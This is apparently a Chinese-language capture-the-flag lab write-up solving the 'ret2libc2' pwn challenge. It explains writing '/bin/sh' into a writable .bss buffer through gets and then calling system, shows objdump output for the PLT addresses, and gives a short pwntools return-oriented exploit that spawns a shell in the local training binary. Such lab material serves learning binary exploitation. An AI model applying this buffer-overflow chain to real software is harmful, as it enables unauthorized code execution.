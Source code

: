 `main` 函数里没有有用的内容。搜索 `/bin/sh` 字符串无结果，但有 `system` 函数。那我们考虑下怎么往里面填一个 `/bin/sh` 。大致扫上一眼没有别的值得关注的地方，就开始考虑下怎么填字符串。

填字符串最直接的办法就是往栈上压，然后栈上地址传给 `system` 。缺点是这个做法在开启 PIE 的时候就没成功过，大概是栈上变量的地址一直在变。

另一个办法是找个 RW 权限的内存段往里面写，然后把地址传给 `system`。注意到导出符号有一个全局变量 `buf2`。

![image-20220824151516232](image-20220824151516232.png)

`buf2` 是一个可写的全局变量，在`.bss`段里，我们直接用它，配合 `gets` 来控制程序读 `/bin/sh` 字符串。

预期的栈结构如下。

![image-20220824151928918](image-20220824151928918.png)

`gets` 读取完`/bin/sh`后直接跳转`system`，原先作为`gets`参数的`buf2`地址就变成了`system`的返回地址，不过我们不在乎。第二个`buf2`则变成了`system`的参数。

从 plt 取 `gets` 和 `system` 函数的地址，然后开始写 exploit 。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc2 | grep system
08048490 <system@plt>:
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc2 | grep gets
08048460 <gets@plt>:
```

### exploit

```python
from pwn import *

p = process('./bin/ret2libc2', env={})
p.sendline(flat([b'A'*112, 0x08048460, 0x08048490, 0x0804a080, 0x0804a080]))
p.sendline(b'/bin/sh')
p.interactive()
```

![image-20220824152429647](image-20220824152429647.png)
